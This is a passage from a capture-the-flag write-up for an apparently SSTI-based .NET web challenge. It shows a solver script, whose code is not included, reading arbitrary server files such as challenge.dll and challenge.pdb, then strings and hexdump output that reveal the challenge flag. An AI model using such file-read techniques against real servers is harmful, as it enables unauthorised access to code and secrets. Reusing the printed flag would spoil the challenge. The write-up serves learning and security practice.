 ```console
 '/app/challenge',
 '/app/challenge.pdb',
 '/app/published',
 '/app/it',
 '/app/runtimes',
 '/app/Microsoft.Win32.SystemEvents.dll',
 '/app/ru',
 '/app/es',
 '/app/challenge.runtimeconfig.json',
 '/app/Microsoft.CodeAnalysis.CSharp.dll',
 '/app/appsettings.Development.json',
 '/app/appsettings.json']
```

### Leaked challenge.dll file and got the flag

Downloaded challenge, challenge.pdb and challenge.dll.
Then, got the flag using the `strings` command for challenge.dll.

```console
$ python3 solver.py B64FILE=/app/challenge > challenge

$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), corrupted program header size, corrupted section header size

$ strings challenge | grep -iE '(flag|ctf)'  # nothing

$ python3 solver.py B64FILE=/app/challenge.pdb > challenge.pdb

$ file challenge.pdb
challenge.pdb: Microsoft Roslyn C# debugging symbols version 1.0

$ strings -a -n 5 -t x challenge.pdb | grep -iE '(flag|ctf)'
   10be Flag.cshtml.cs
   2deb Pages_Flag_cshtml.g.cs  /
   d6d0 Flag.cshtml

$ python3 solver.py B64FILE=/app/challenge.dll > challenge.dll

$ file challenge.dll
challenge.dll: MS-DOS executable

$ strings -a -n 5 -t x challenge.dll | grep -iE '(flag|ctf)'
   a571 <flag>5__1
   b25f Pages_Flag
   b26a GetFlag
   b414 FlagModel
   bcf6 NullableFlags
   bd04 CSharpArgumentInfoFlags
   bd1c CSharpBinderFlags
  1118c challenge.Pages.Pages_Flag
  111ba /Pages/Flag.cshtml
  11408 -challenge.Pages.Pages_Flag+<ExecuteAsync>d__0
  11d06 /Pages/Flag.cshtml

$ hd challenge.dll
(snip)
0000c4e0  65 00 21 00 00 53 54 00  55 00 43 00 54 00 46 00  |e.!..ST.U.C.T.F.|
0000c4f0  7b 00 53 00 53 00 54 00  31 00 5f 00 31 00 4e 00  |{.S.S.T.1._.1.N.|
0000c500  54 00 30 00 5f 00 44 00  30 00 54 00 4e 00 33 00  |T.0._.D.0.T.N.3.|
0000c510  54 00 5f 00 31 00 53 00  5f 00 4c 00 33 00 5f 00  |T._.1.S._.L.3._.|
0000c520  45 00 50 00 31 00 43 00  5f 00 31 00 38 00 34 00  |E.P.1.C._.1.8.4.|
0000c530  35 00 39 00 38 00 7d 00  00 0d 6d 00 65 00 74 00  |5.9.8.}...m.e.t.|
```
